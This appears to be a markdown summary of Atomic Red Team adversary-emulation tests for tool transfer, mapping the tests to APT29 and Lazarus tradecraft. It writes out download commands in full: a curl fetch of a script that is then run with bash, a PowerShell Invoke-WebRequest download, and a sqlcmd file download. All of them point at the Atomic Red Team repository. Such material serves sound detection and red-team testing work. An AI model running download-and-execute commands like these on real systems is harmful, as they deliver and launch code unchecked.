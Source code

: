 ### Atomic Test #27 - Linux Download File and Run
**Technique:** Linux Tool Transfer  
**Adversary Usage:** Lazarus  
**Command:**
```sh
curl -sO https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1105/src/atomic.sh; chmod +x atomic.sh | bash atomic.sh
```
**Explanation:** Lazarus targets Linux environments and uses curl to download and immediately execute payloads, demonstrating their cross-platform capabilities.

### Atomic Test #29 - iwr or Invoke Web-Request download
**Technique:** PowerShell Invoke-WebRequest  
**Adversary Usage:** APT29  
**Command:**
```cmd
powershell.exe iwr -URI https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/LICENSE.txt -Outfile %temp%\Atomic-license.txt
```
**Explanation:** APT29 uses Invoke-WebRequest (iwr) as an alternative download method, particularly in environments where other techniques might be blocked or monitored.

### Atomic Test #32 - File Download with Sqlcmd.exe
**Technique:** SQL Server Tool Abuse  
**Adversary Usage:** APT29  
**Command:**
```powershell
sqlcmd -i https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1105/src/T1105.zip -o C:\T1105.zip
```
**Explanation:** APT29 has abused SQLCMD for file downloads, demonstrating their sophisticated tradecraft in using unexpected legitimate tools for malicious purposes.

---

## Correlation with APT29 & Lazarus

* **APT29 Focus:**
  * Living-off-the-land techniques (#7, #9, #32)
  * Multiple PowerShell variants (#10, #15, #29)
  → Used for stealthy tool transfer during espionage operations

* **Lazarus Group Focus:**
  * BITSAdmin for persistence (#9)
  * PowerShell download cradles (#10, #15)
  * Cross-platform tools (#18, #27)
  → Used for initial payload delivery and lateral movement

* **Overlap:**
  * Both groups use **BITSAdmin (#9)** and **PowerShell (#10, #15)**
  * Both employ **multiple redundant methods** for tool transfer
  * Both leverage **legitimate system utilities** to evade detection

---